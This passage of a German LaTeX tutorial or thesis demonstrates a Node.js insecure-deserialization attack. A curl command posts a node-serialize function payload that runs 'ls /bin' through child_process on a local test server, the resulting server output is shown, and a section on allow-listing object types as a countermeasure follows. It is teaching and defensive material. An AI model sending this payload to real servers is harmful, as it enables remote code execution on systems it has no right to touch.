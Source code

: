 \begin{verbatim}
$ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}()\"}" http://localhost:3000/api/deserialize
\end{verbatim}

Die Ausgabe am Server zeigt nun, dass das Kommando ausgeführt, und der Inhalt von \textit{/bin} ausgegeben wurde:

\begin{verbatim}
{ todo: undefined }                                                                                                                         
[                                                                                                                                           
2to3-2.7                                                              
aa-enabled                                                                                                                                  
aa-exec                                                               
aa-features-abi                                                       
aconnect                                                              
acpi_listen                                                           
add-apt-repository                                                    
addpart                                                               
addr2line                                                             
afm2pl                                                                
afm2tfm                                                               
ag                                                                    
aleph
...
\end{verbatim}

\subsection{Gegenmaßnahmen}

Die Grundidee ist es, dass der Entwickler vor der Deserialisierung definieren muss, welche validen Objekttypen bei der Deserialisierung vorkommen dürfen. Wie und ob dies überhaupt möglich ist, ist allerdings von der verwendeten Programmiersprache abhängig --- z.B. muss bei älteren Java-Versionen eine externe Serialisierungsbibliothek\footnote{\url{https://github.com/ikkisoft/SerialKiller}} verwendet werden um ein sicheres Verhalten zu erzielen.

